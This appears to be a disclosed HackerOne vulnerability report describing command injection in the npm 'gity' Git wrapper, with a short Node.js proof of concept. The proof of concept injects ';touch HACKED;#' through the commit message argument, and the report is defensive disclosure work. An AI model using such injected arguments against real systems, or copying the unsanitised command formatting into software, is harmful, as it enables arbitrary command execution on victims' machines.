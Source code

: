 # [gity] RCE via insecure command formatting

## Report Details
- **Report ID**: 730111
- **URL**: https://hackerone.com/reports/730111
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-05T21:10:14.160Z
- **Disclosed**: 2020-09-24T19:22:21.263Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `gity` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `gity`
**version:** `1.0.5`
**npm page:** `https://www.npmjs.com/package/gity`

## Module Description
> A nice Git wrapper for Node.

## Module Stats
[~3/4] downloads in the last day
[21] downloads in the last week
[~100] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/stevenmiller888/gity/blob/master/lib/index.js#L85

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var Git = require('gity');
 
var git = Git()
  .add('*.js')
  .commit('-m "added js files";touch HACKED;#')
  .run();

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i gity # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F626758}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `gity`

## Attachments
- Screenshot_from_2019-11-05_22-07-27.png
